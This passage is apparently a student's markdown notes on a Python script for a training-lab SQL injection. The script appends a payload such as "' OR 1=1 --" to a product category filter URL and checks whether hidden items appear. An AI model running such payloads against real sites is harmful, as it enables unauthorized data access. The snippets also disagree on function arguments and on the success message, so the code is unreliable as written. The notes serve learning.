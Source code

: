 # About the python script

- give it 2 cmd line params when running it
    - the URL and the SQLi paylod 
    - takes those two parameters/arguments
     
``` python
  def main():
  try:
      url = sys.argv[1].strip()
      payload = sys.argv[2].strip() 
```
`./sqli-01.py https://webacademey.net "' OR 1=1 --`

<br>
 
- And if incorrect number of parameters..
``` python
    except IndexError:
        print("[-] Usage: %s <url> <payload>" % sys.argv[0])
        print('[-] Example: %s www.example.com "1=1"' % sys.argv[0])
        sys.exit(-1)
```
<br>

- function that evaluates to True if SQLi present:
- accepts the two args- URL & Payload
``` python
    if exploit_sqli(s, url, sqli_payload):
        print("[+] Success! You are now logged in as admin.")
    else:
        print("[-] Denied!.")
```
<br>

- The exploit function
    - accepts the two args- URL & Payload concatenates the URL and the payload after the = sign
``` python
# the exploit function, accepts the URL and the SQLi payload as args
def exploit_sqli(url, payload):
    uri = '/filter?category='
    r = requests.get(url + uri + payload, verify=False, proxies=proxies) 
```
<br>

- Check for presence of an unreleased item on the page to confirm successful exploitation
  - "Cat Grin", is one of those items
```python
 if "Cat Grin" in r.text:
        return True
    else:
        return False
```
